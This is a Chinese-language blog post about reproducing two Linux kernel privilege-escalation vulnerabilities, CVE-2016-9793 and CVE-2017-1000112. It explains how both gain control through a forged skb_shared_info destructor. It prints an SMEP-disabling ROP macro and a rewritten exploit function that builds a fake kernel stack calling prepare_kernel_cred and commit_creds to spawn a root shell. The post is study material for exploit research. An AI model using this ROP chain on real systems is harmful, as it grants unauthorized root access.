 ```yaml
---
layout: post
title: CVE-2016-9793与CVE-2017-1000112复现学习
description: "内核漏洞利用原理学习"
category: develop
tags: [kernel, debug, pwn]
imagefeature: http://7xwdx7.com1.z0.glb.clouddn.com/5551e1cabd3bb.jpg
comments: true
share: true
---
```


# CVE-2016-9793与CVE-2017-1000112复现学习

### 背景

近期工作中需要对一些已知的内核提权漏洞进行复现和有效性测试，因此对一些有cve编号的内核提权漏洞进行了学习。参考xairy大神的repo[^1]，逐一研究这些漏洞的利用过程。

其中，大神的两个漏洞CVE-2016-9793和CVE-2017-1000112，漏洞利用的原理和过程非常相似。在这里对复现过程进行简单的记录和思考。

### 技术细节

CVE-2016-9793是一个内核socket模块中的整形溢出漏洞，主要细节在于使用SO_SNDBUFFORCE标签对sk_sndbuf进行赋值时，可以使用u32变量来溢出int32整形变量。
当传入一个非法的值0xffffff00时，内核对该非法输入进行了一系列错误操作，导致最后内核会引用一个用户空间可控的skb_shared_info对象指针。攻击者通过在用户空间mmap到对应的对象指针地址，并为shinfo->destructor_arg这个变量赋值来控制PC指针的跳转，从而完成控制流的获取。
这个CVE漏洞的完整分析可以参考这篇文章[^2]。

CVE-2017-1000112是一个内核越界写漏洞，攻击者通过构造一个恶意UFO packet来诱使skb_copy_and_csum_bits()函数执行越界写操作，从而获取一个可控的skb_shared_info对象。同理，利用shinfo->destructor_arg这个变量来劫持kernel的控制流，达到权限提升的目的。

### 漏洞利用

在利用这两个漏洞的过程中，利用点是一致的，都是使用一个可控的shinfo->destructor_arg变量来获取控制流。但是即使能够完成对内核PC指针的控制，还是要继续绕过KASLR和SMEP等缓解措施。

xairy大神在原始的POC代码中，提供了一个Disable SMEP的ROP chain。但是在实际运行过程中，这个Disable过程好像并没有起作用，内核仍然限制运行用户空间地址的代码。

{% highlight c %}
#define SMEP_MASK 0x100000

#define CHAIN_DISABLE_SMEP			\
	*stack++ = MOV_RAX_CR4_RET;		\
	*stack++ = NEG_RAX_RET;			\
	*stack++ = POP_RCX_RET;			\
	*stack++ = SMEP_MASK;			\
	*stack++ = OR_RAX_RCX_RET;		\
	*stack++ = NEG_RAX_RET;			\
	*stack++ = XCHG_EAX_EDI_RET;		\
	*stack++ = MOV_CR4_RDI_RET;
{% endhighlight %}

这里面的问题可能需要继续调试，确认控制寄存器CR4的值是否确实被改写了。这个问题留到后面去研究，正好之前学习了kernel rop的利用链，所以我这里直接放弃了改写CR4，而是直接构造一个虚假的内核stack来执行kernel rop。

以CVE-2017-1000112的POC代码为例，构造一个fake kernel stack来执行kernel rop的利用代码如下：

{% highlight c %}


void mmap_stack() {
	uint64_t stack_aligned, stack_addr;
	int page_size, stack_size, stack_offset;
	uint64_t* stack;

	page_size = getpagesize();

	stack_aligned = (XCHG_EAX_ESP_RET & 0x00000000fffffffful) & ~(page_size - 1);
	stack_addr = stack_aligned - page_size * 4;
	stack_size = page_size * 8;
	stack_offset = XCHG_EAX_ESP_RET % page_size;

	stack = mmap((void*)stack_addr, stack_size, PROT_READ | PROT_WRITE,
			MAP_FIXED | MAP_ANONYMOUS | MAP_PRIVATE, -1, 0);
	if (stack == MAP_FAILED || stack != (void*)stack_addr) {
		perror("[-] mmap()");
		exit(EXIT_FAILURE);
	}

	stack = (uint64_t*)((char*)stack_aligned + stack_offset);
    /*
	CHAIN_SAVE_ESP;
	CHAIN_DISABLE_SMEP;
	CHAIN_JMP_PAYLOAD;
    */
    void* temp_stack;
	assert((temp_stack = mmap((void*)0x30000000, 0x40000, 7, 0x32, 0, 0)) == (void*)0x30000000);

    save_state();
	*stack ++= POP_RDI_RET; /* pop %rdi; ret */

	stack = (uint64_t*)((char*)stack_aligned + stack_offset + 8 + 0x144);

	*stack ++= 0x0UL;                /* NULL */
	*stack ++= PREPARE_KERNEL_CRED; /* prepare_kernel_cred() */

	*stack ++= POP_RDX_RET; /* pop %rdx; ret */
	*stack ++= COMMIT_CREDS; // commit_creds() + 2 instructions

	*stack ++= MOV_RDI_RAX_CALL_RDX; /* mov %rax, %rdi; call %rdx */

    *stack ++= SWAPGS_POP_RBP_RET; // swapgs ; pop rbp ; ret
    *stack ++= 0xdeadbeefUL;         // dummy placeholder

	*stack ++= IRETQ; /* iretq */
	*stack ++= (uint64_t)shell; /* spawn a shell */
	*stack ++= user_cs;              /* saved CS */
	*stack ++= user_rflags;          /* saved EFLAGS */
	*stack ++= (uint64_t)(temp_stack+0x20000);  /* mmaped stack region in user space */
    *stack ++= user_ss;              /* saved SS */

}


{% endhighlight %}

改写后的POC即使没有关闭SMEP保护，但是仍然能完成后续的权限提升操作，运行效果如下图所示：
![cve-2017-1000112](http://7xwdx7.com1.z0.glb.clouddn.com/exp-cve-2017-1000112.png)

[^1]: <https://github.com/xairy/kernel-exploits>
[^2]: <https://dangokyo.me/2017/11/05/analysis-on-cve-2016-9793/>
